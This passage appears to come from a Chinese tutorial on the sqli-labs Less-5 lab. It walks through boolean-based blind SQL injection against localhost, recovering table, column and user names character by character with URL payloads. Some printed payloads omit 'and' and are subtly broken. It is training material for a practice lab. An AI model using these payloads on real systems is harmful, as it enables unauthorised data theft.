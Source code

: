 <font style="color:#601BDE;">       道理和方法都是一样的</font>

<font style="color:#000000;">结果都为</font>

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732083056851-10100eb7-35f8-4412-9530-b8f42a94187c.png)

所以 'd'<'当前数据库第一个表名的第一个字符'<'f'

<font style="color:rgb(77, 77, 77);">当前数据库第一个表名的第一个字符为'e'。</font>

<font style="color:rgb(77, 77, 77);">以此类推，当前数据库第一个表名为'email'。</font>

##### <font style="color:rgb(79, 79, 79);">猜测当前数据表的字段：</font>
<font style="color:rgb(77, 77, 77);">猜测当前数据表的第四个字段的第一个字符：</font>

同样的方法 只是payload有点区别

```sql
http://127.0.0.1/sqlilabs/Less-5/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name="users" limit 3,1),1,1))>104%23
http://127.0.0.1/sqlilabs/Less-5/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name="users" limit 3,1),1,1))<106%23
```

结果都为

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732084297162-75420d50-ab91-4963-9357-e5b8dc05b853.png)

由于 'h'<'当前数据表的第四个字段的第一个字符'<'j'

所以 <font style="color:rgb(77, 77, 77);">当前数据表的第四个字段的第一个字符为'i'</font>

<font style="color:rgb(77, 77, 77);">类推，当前数据表的第四个字段为'id'。</font>

##### <font style="color:rgb(79, 79, 79);">猜测当前字段的数据项：</font>
<font style="color:rgb(77, 77, 77);">猜测当前字段第一个数据项的第一个字符：</font>

<font style="color:rgb(77, 77, 77);">payload:</font>

```sql
http://127.0.0.1/sqlilabs/less-5/?id=1' ascii(substr((select username from security.users order by id limit 0,1),1,1))>67%23 
http://127.0.0.1/sqlilabs/less-5/?id=1' ascii(substr((select username from security.users order by id limit 0,1),1,1))<69%23 
```

<font style="color:rgb(0, 153, 0) !important;">由于  'C'</font><font style="color:rgb(79, 79, 79);background-color:rgb(246, 248, 250);"><</font><font style="color:rgb(0, 153, 0) !important;">'当前字段的第一个数据项的第一个字符'</font><font style="color:rgb(79, 79, 79);background-color:rgb(246, 248, 250);"><</font><font style="color:rgb(0, 153, 0) !important;">'E'</font>

<font style="color:rgb(0, 153, 0) !important;">所以 </font><font style="color:rgb(77, 77, 77);">当前字段的第一个数据项的第一个字符为'D'。</font>

<font style="color:rgb(77, 77, 77);">以此类推，当前字段的第一个数据项为'Dumb'。</font>

<font style="color:rgb(77, 77, 77);">同样的方法可以推出‘password’字段的第一个数据项为'Dumb'。</font>
